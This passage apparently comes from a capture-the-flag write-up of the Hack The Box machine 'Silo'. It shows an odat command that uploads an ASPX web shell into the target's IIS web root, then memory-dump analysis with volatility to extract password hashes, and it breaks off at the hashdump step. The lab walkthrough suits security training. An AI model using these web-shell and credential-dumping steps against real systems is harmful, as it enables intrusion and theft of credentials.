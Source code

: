 <div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ odat dbmsxslprocessor -s 10.10.10.82 -d XE -U taha -P password --putFile "C:\inetpub\wwwroot" "shell.aspx" "/home/thehunt/Desktop/exploits/shell.aspx" --sysdba</span>
</div>
<br>


![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(10).png)

Open http://10.10.10.92/shell.aspx


![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(11).png)

![gif](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/7zop.gif)

## Privilege Escalation

In C:\Users\Phineas\Desktop I found:

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(12).png)

![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(13).png)

Copy link https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0 and use the password £%Hm8646uC$ found


![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Silo-htb/image%20(14).png)

Let’s go into dropbox and download the file. I got a zip file. I extracted it and got a memory dump. Let’s analyse it using volatility (you can install it using this link : [install](https://seanthegeek.net/1172/how-to-install-volatility-2-and-volatility-3-on-debian-ubuntu-or-kali-linux/)). I ran this command to check the profile:

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ volatility -f SILO-20180105-221806.dmp imageinfo</span>
</div>
<br>


><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">I got a lot of suggestions. Running systeminfo on the remote machine gives us the OS name: Microsoft Windows Server 2012 R2 Standard. So, I’ll use the profile as: Win2012R2x64. First, let’s try hashdump and see if we can get the hash of Administrator:</span>
<br>




<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ volatility -f SILO-20180105-221806.dmp --profile=Win2012R2x64 hashdump</span>
</div>
<br>

